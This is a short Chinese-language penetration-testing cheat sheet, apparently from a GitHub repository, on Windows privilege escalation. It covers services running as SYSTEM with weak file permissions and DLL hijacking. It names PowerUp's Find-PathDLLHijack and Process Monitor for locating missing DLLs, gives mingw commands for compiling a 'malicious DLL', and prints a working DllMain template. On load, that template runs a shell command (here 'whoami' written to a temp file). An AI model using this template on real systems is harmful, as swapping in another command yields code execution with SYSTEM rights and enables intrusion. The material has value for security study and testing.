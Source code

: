 	以管理员/SYSTEM 身份运行且文件权限不正确的服务可能允许提权。可以替换文件，重新启动服务并获取系统权限。
	查找缺少的 DLL 
	- Find-PathDLLHijack PowerUp.ps1
	- Process Monitor : check for "Name Not Found"

	编译一个恶意 dll
	- For x64 compile with: "x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll"
	- For x86 compile with: "i686-w64-mingw32-gcc windows_dll.c -shared -o output.dll"

	windows_dll.c的内容
	#include <windows.h>
	BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
	    if (dwReason == DLL_PROCESS_ATTACH) {
	        system("cmd.exe /k whoami > C:\\Windows\\Temp\\dll.txt");
	        ExitProcess(0);
	    }
	    return TRUE;
	}